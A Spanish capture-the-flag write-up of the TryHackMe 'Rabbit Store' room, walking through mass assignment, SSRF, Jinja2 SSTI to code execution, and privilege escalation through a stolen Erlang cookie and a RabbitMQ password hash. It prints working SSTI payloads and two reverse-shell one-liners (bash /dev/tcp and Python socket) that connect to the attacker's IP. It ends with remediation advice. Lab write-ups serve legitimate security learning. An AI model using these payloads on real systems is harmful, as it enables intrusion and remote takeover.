# Rabbit Store — mi write-up

Room de **TryHackMe** (medium). Web app + Linux privesc con RabbitMQ.  
Hosts: `cloudsite.thm`, `storage.cloudsite.thm` y luego `forge` para el nodo Erlang.

---

## Cómo empecé

Primero un escaneo a todos los puertos:

```bash
sudo nmap -sS -Pn -T4 -p- <IP>
```



Salieron **22** (ssh), **80** (http), **4369** (epmd — Erlang Port Mapper) y **25672** (distribución Erlang / RabbitMQ). 

Después uno más específico a esos puertos:

```bash
sudo nmap -sV -sC -p22,80,4369,25672 <IP>
```



SSH + Apache. En el 80 redirige a `http://cloudsite.thm/` — lo metí en `/etc/hosts`. En el **4369** el script `epmd-info` te saca el nodo **`rabbit`** escuchando en el **25672**.


La web es una landing de cloud. Le di a Login/Sign Up, me mandó a `storage.cloudsite.thm` → otro `/etc/hosts`.

Creé un usuario (`test@gmail.com`) y me logueé.

---

## Sin suscripción activa

Tras loguearme salía el mensaje de que el servicio es solo para usuarios internos / clientes con suscripción activa.



Miré la cookie `jwt` en jwt.io. Dentro venía algo como:

```json
{
  "email": "test@gmail.com",
  "subscription": "inactive",
  ...
}
```



Intenté cambiar `inactive` → `active` en jwt.io y volver a mandar la cookie. No funcionó.

---

## Mass assignment (Burp)

Probé **mass assignment** en el registro. Intercepté el `POST /api/register` con Burp y añadí el campo `subscription`:

```json
{
  "email": "test1@gmail.com",
  "password": "1234",
  "subscription": "active"
}
```



Respuesta `201 Created` — `User registered successfully`. Me logueé con ese usuario y ya tenía el dashboard activo con subida de archivos y **Upload From URL**.


---

## SSRF — confirmar y sacar la API docs

En el dashboard hay **Upload From URL** (`/api/store-url`).

Primero confirmé que el servidor sí hace requests salientes: levanté un servidor en mi máquina y mandé mi IP:

```bash
python3 -m http.server 80
```

En la web puse `http://192.168.142.92` → el target me pegó desde su IP interna. SSRF confirmado.



Luego fui enumerando la API con gobuster (con la cookie jwt del usuario activo):

```bash
gobuster dir -u http://storage.cloudsite.thm/api/ \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt \
  -H "Cookie: jwt=<tu_jwt>"
```



Salieron `login`, `register`, `docs` (**403**), `uploads` (200). `/api/docs` existe pero no te deja entrar desde fuera.

la API corre en **Node.js + Express** (`X-Powered-By: Express`), normalmente en el **3000** solo por dentro. Usé el SSRF para que el servidor se llame a sí mismo:

```
http://127.0.0.1:3000/api/docs
```

(en **Upload From URL** / `/api/store-url`)


`Success: File stored from URL successfully` — te devuelve un fichero en `/api/uploads/<uuid>`. Al abrirlo salen los endpoints internos:



```
POST /api/register
POST /api/login
POST /api/upload
POST /api/store-url
POST /api/fetch_messeges_from_chatbot
GET  /api/uploads/filename
GET  /dashboard/inactive
GET  /dashboard/active
```

De ahí saqué `/api/fetch_messeges_from_chatbot` — el que exploté después con SSTI.

---

## SSTI → reverse shell

El endpoint `/api/fetch_messeges_from_chatbot` pide `username` en JSON. Si mandas `"test"`, te devuelve HTML y refleja tu input:

```
Sorry, test, our chatbot server is currently under development.
```



Probé SSTI:

```json
{"username": "{{7*7}}"}
```

Respondió `Sorry, 49, our chatbot server...` — Jinja2 confirmado.



Luego RCE con `id`:

```json
{
  "username": "{{ cycler.__init__.__globals__.os.popen('id').read() }}"
}
```

Salió `uid=1000(azrael)...` en la respuesta.



Reverse shell (listener en **9000**):

```bash
nc -vnlp 9000
```

Payload en Burp — comando en base64 para no liar con las comillas:

```json
{
  "username": "{{ cycler.__init__.__globals__.os.popen('echo BASE64_REVERSE_SHELL|base64 -d|bash').read() }}"
}
```

El base64 decodifica a algo como:

```bash
sh -i >& /dev/tcp/192.168.142.92/9000 0>&1
```



Shell como **azrael**. `user.txt` en su home.



---

## Enumeración en el box

Estaba en `/home/azrael/chatbotServer` (ahí está el `chatbot.py` vulnerable).

Para ver qué corre en segundo plano bajé **pspy64** desde mi máquina:

```bash
wget http://192.168.142.92/pspy64
chmod +x pspy64
./pspy64
```



En los logs vi actividad de RabbitMQ y el nodo **`rabbit@forge`**. Ya en el nmap inicial había visto **4369** y **25672** — con pspy confirmé que era RabbitMQ y el nombre del nodo.



---

## Post-explotación — cookie Erlang + erl_matter

Investigué RabbitMQ y vi que usa una **cookie de Erlang** para autenticar los nodos. La encontré aquí:

```bash
cat /var/lib/rabbitmq/.erlang.cookie
```



Busqué herramientas y encontré **erl-matter** (`~/tools1/erl-matter`). Usé `shell-erldp.py`:

```bash
python2 shell-erldp.py <IP_TARGET> 25672 <COOKIE>
```

Salió `[*] authenticated onto victim`. Desde ahí lancé otro reverse shell (esta vez puerto **9001**):

```bash
nc -vnlp 9001
```

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.142.92",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```



Shell como **`rabbitmq@forge`**.



---

## De rabbitmq a root

Con la cookie en el home de rabbitmq:

```bash
chmod 600 .erlang.cookie
rabbitmqctl add_user test 123
rabbitmqctl set_user_tags test administrator
```

Con ese usuario consulté la API de management:

```bash
curl -u "test:123" http://localhost:15672/api/users
```



Ahí sale el usuario `root` de RabbitMQ y otro con un nombre largo que te da la pista: la password de **root en Linux** es el hash SHA-256 de la password de root en RabbitMQ (no hace falta crackearlo).

RabbitMQ guarda el hash como `base64(salt + sha256)`. Saqué el `password_hash` de `root` y quité el salt (primeros 4 bytes tras decodificar base64):

```bash
echo "<password_hash_base64>" | base64 -d | xxd -pr -c128 | cut -c9-
```



Eso te da un hex de 64 caracteres. Lo usé como password de `su`:

```bash
su root
```

Root. `root.txt` en `/root/`.



---

## Mi cadena (resumen)

```
nmap -p- (22, 80, 4369, 25672) → cloudsite.thm + storage.cloudsite.thm
  → registro con subscription: active en Burp (mass assignment)
  → SSRF confirm → gobuster /api/ (docs 403) → store-url 127.0.0.1:3000/api/docs
  → SSTI en fetch_messeges_from_chatbot → shell azrael (nc :9000)
  → pspy → rabbit@forge
  → .erlang.cookie → erl-matter shell-erldp.py → shell rabbitmq (nc :9001)
  → rabbitmqctl add_user → curl :15672/api/users
  → decode hash → su root
```

---

## Qué usaría otra vez

- nmap `-p-` 
- Burp (registro, SSRF, SSTI — imprescindible)
- jwt.io (ver el JWT, aunque editarlo no bastó)
- gobuster en `/api/`
- `nc` en 9000 y 9001 (dos shells distintos)
- pspy64 para ver procesos sin root
- erl-matter (`shell-erldp.py`) 

---

## Si lo arreglaran

- No aceptar `subscription` en `/api/register`
- SSRF: bloquear requests a localhost / IPs internas
- No usar `render_template_string` con input del usuario
- Cookie Erlang legible y puerto 25672 expuesto = mal
- No reutilizar el hash de RabbitMQ como password de root del SO

---

*Room educativo de TryHackMe*
